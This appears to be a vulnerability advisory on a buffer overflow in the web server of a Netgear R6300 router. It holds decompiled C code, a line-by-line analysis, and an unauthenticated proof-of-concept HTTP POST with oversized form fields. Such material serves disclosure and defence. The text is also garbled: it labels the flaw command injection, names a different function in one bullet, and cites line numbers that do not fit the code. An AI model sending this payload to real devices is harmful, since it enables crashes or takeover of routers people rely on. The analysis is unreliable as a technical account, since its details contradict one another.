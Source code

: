 # Buffer Overflow Vulnerability in `basicCgiPppoe2_IP`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiPppoe2_IP`)                                |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameters `tempIP`, `endIP4`, `Protocol`, `policyIndex` |

2. Exploitation Path

```c
int __fastcall basicCgiPppoe2_IP(int a1, int a2)
{
  int v4; // $a1
  char v6[8]; // [sp+18h] [-138h] BYREF
  char v7[8]; // [sp+20h] [-130h] BYREF
  char v8[8]; // [sp+28h] [-128h] BYREF
  char v9[32]; // [sp+30h] [-120h] BYREF
  char v10[256]; // [sp+50h] [-100h] BYREF

  memset(v9, 0, sizeof(v9));
  memset(v6, 0, sizeof(v6));
  memset(v7, 0, sizeof(v7));
  memset(v10, 0, sizeof(v10));
  websGetVar(a1, "tempIP", v9);
  strcpy(v10, v9);
  strcat(v10, "-");
  websGetVar(a1, "endIP4", v6);
  strcat(v10, v6);
  websGetVar(a1, "Protocol", v7);
  strcat(v10, ",");
  strcat(v10, v7);
  websGetVar(a1, "policyIndex", v8);
  if ( v8[0] )
    v4 = atoi(v8);
  else
    v4 = 0;
  sub_42505C(v10, v4);
  sendPage2Client("BAS_basic.htm", a2);
  return 0;
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: Multiple buffer overflow vulnerabilities are present in the `basicCgiPppoe2_IP` function:
   - In the `basicCgiPppoe2_Port` function at line 14, `websGetVar(a1, "tempIP", v9)` retrieves user input into `v9`. The destination buffer `v9` is only **32 bytes**, while `websGetVar` allows inputs up to 255 bytes. This results in a buffer overflow vulnerability.
   - At line 17, `websGetVar(a1, "endIP4", v6)` retrieves user input into `v6`. The destination buffer `v6` is only **8 bytes**, while input length can reach 255 bytes, resulting in a buffer overflow vulnerability.
   - At line 19, `websGetVar(a1, "Protocol", v7)` retrieves user input into `v7`. The destination buffer `v7` is only **8 bytes**, causing a buffer overflow vulnerability.
   - At line 22, `websGetVar(a1, "policyIndex", v8)` retrieves user input into `v8`. The destination buffer `v8` is only **8 bytes**, leading to a buffer overflow vulnerability.
   - At line 21, `strcat(v10, v7)` appends user input into `v10`. Since `v10` is a **256-byte buffer** that has already been concatenated with `v6` at line 18 and a delimiter at line 20, repeated concatenations may exceed the buffer size, causing a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/basicCgiPppoe2_IP HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024
Connection: close

tempIP=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
&endIP4=BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
&Protocol=CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
&policyIndex=DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```